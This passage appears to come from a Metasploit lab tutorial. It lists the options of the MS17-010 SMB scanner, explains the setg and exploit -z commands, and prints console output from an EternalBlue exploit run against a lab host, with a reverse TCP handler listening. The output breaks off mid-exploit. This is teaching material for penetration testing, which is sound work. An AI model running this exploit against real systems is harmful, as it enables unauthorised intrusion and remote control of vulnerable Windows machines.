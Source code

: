    Name         Current Setting                                                Required  Description
   ----         ---------------                                                --------  -----------
   CHECK_ARCH   true                                                           no        Check for architecture on vulnerable hosts
   CHECK_DOPU   true                                                           no        Check for DOUBLEPULSAR on vulnerable hosts
   CHECK_PIPE   false                                                          no        Check for named pipe on vulnerable hosts
   NAMED_PIPES  /opt/metasploit-framework-5101/data/wordlists/named_pipes.txt  yes       List of named pipes to check
   RHOSTS       10.10.165.39                                                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:'
   RPORT        445                                                            yes       The SMB service port (TCP)
   SMBDomain    .                                                              no        The Windows domain to use for authentication
   SMBPass                                                                     no        The password for the specified username
   SMBUser                                                                     no        The username to authenticate as
   THREADS      1                                                              yes       The number of concurrent threads (max one per host)

msf6 auxiliary(scanner/smb/smb_ms17_010) >
```
The ```setg``` command sets a global value that will be used until you exit Metasploit or clear it using the ```unsetg``` command.


#### Using modules

Once all module parameters are set, you can launch the module using the exploit command. Metasploit also supports the run command, which is an alias created for the exploit command as the word exploit did not make sense when using modules that were not exploits (port scanners, vulnerability scanners, etc.).


The exploit command can be used without any parameters or using the “```-z```” parameter.

The ```exploit -z``` command will run the exploit and background the session as soon as it opens.


#### The exploit -z command
```
msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit -z
```
```
[*] Started reverse TCP handler on 10.10.44.70:4444 
[*] 10.10.12.229:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.12.229:445      - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.12.229:445      - Scanned 1 of 1 hosts (100% complete)
[*] 10.10.12.229:445 - Connecting to target for exploitation.
[+] 10.10.12.229:445 - Connection established for exploitation.
[+] 10.10.12.229:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.12.229:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.12.229:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.10.12.229:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.10.12.229:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
[+] 10.10.12.229:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.12.229:445 - Trying exploit with 12 Groom Allocations.
[*] 10.10.12.229:445 - Sending all but last fragment of exploit packet
[*] 10.10.12.229:445 - Starting non-paged pool grooming
